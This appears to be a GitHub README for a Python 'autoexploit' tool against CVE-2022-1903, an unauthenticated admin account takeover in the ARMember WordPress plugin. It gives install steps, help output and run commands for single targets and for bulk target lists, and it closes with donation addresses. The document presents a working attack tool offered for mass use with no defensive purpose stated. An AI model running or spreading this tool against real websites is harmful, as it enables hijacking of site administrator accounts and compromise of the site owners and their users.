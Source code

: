 # CVE-2022-1903
[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

```
Title: ARMember < 3.4.8 - Unauthenticated Admin Account Takeover
Author: Cyllective [ https://cyllective.com/ ]
CVE: CVE-2022-1903
```

### Installation
```
git clone https://github.com/biulove0x/CVE-2022-1903.git
cd CVE-2022-1903/
python3 -m pip install -r requirements.txt
```

### How to run autoexploit
```
$ python3 ARMember.py --help
###########################################
# @author : biulove0x                     #
# @name   : WP Plugins ARMember Exploiter #
# @cve    : CVE-2022-1903                 #
###########################################

usage: armember.py [-h] [-t example.com] [-l target.txt]

CVE-2022-1903 [ ARMember < 3.4.8 - Unauthenticated Admin Account Takeover ]

optional arguments:
  -h, --help      show this help message and exit
  -t example.com  Single target
  -l target.txt   Multiple target
```

#### Single target
```
$ python3 ARMember.py -t http://example.com/
```

#### Multiple target
```
$ cat domains.txt
http://example.com/
https://examples.com/

$ python3 ARMember.py -l target.txt
```

### References :

* https://wpscan.com/vulnerability/28d26aa6-a8db-4c20-9ec7-39821c606a08

### Donate :
BTC : bc1qst09sxcnq97a4wgsqvpkg4fxyjczvs3xe7278h

BNB : bnb1jhp2hv9utr8u97387p35fmftgr8wpjp39altz0

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/biulove0x)
